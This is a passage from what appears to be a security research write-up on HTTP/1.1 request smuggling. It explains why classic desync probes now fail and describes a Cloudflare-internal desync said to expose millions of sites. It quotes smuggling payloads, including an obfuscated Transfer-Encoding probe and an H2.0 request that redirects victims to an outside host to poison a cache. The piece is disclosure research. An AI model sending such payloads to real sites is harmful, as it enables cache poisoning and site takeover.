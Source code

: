 `POST / HTTP/1.1 Host: <redacted> Transfer-Encoding : chunked Content-length: 35 0 GET /robots.txt HTTP/1.1 X: y``HTTP/1.1 200 OK`

Here's the simulated victim:

`GET / HTTP/1.1 Host: example.com``HTTP/1.1 200 OK Disallow: /`

This used to work on a vast number of websites. These days, the probe will probably fail even if your target is actually vulnerable, for one of three reasons:

*   WAFs now use regexes to detect and block requests with an obfuscated Transfer-Encoding header, or potential HTTP requests in the body.
*   The /robots.txt detection gadget doesn't work on your particular target.
*   There's a server-side race condition which makes this technique highly unreliable on certain targets.

The alternative, timeout-based detection strategy discussed in my previous research is also heavily fingerprinted and blocked by WAFs.

This has created the desync endgame - you've got the illusion of security thanks to toy mitigations and selective hardening that only serves to break the established detection methodology. Everything looks secure until you make the tiniest change.

In truth, HTTP/1.1 implementations are so densely packed with critical vulnerabilities, you can literally find them by mistake.

### Hacking 20 million websites by accident

HTTP/1.1 is simply not fit for a world where we solve every problem by adding another layer. The following case-study illustrates this beautifully.

[Wannes Verwimp](https://www.linkedin.com/in/wannes-verwimp/) asked for my thoughts on an issue he'd discovered affecting a site hosted on Heroku, behind Cloudflare. He'd found an H2.0 desync and was able to exploit it to redirect visitors to his own website.

`GET /assets/icon.png HTTP/2 Host: <redacted> GET /assets HTTP/1.1 Host: psres.net X: y` `HTTP/2 200 OK Cf-Cache-Status: HIT` `GET / HTTP/2 Host: <redacted>` `HTTP/2 302 Found Location: https://psres.net/assets/`

This redirect was getting saved in Cloudflare's cache, so by poisoning the cache entry for a JavaScript file, he was able to take persistent control of the entire website. This was all unremarkable except for one thing - the users being hijacked weren't trying to access the target website. The attack was actually compromising random third party sites, including certain banks!

I agreed to investigate and noticed something else strange - the attack was blocked by Cloudflare's front-end cache, meaning the request would never reach the back-end server. I reasoned that there was no way this attack could possibly work and Wannes must have made a mistake, so I added a cache-buster... and the attack failed. When I removed the cache-buster, it started working.

By ignoring the fact his attack was being blocked by a cache, Wannes had discovered a HTTP/1.1 desync internal to Cloudflare's infrastructure:

![](/cms/images/6c/34/a872-article-cloudflare.png)  

This finding exposed over 24,000,000 websites to complete site takeover! It embodies the desync endgame - the classic methodology doesn't work, but the systems built on HTTP/1 are so complex and critical that you can make one mistake and end up with control over 24 million websites.
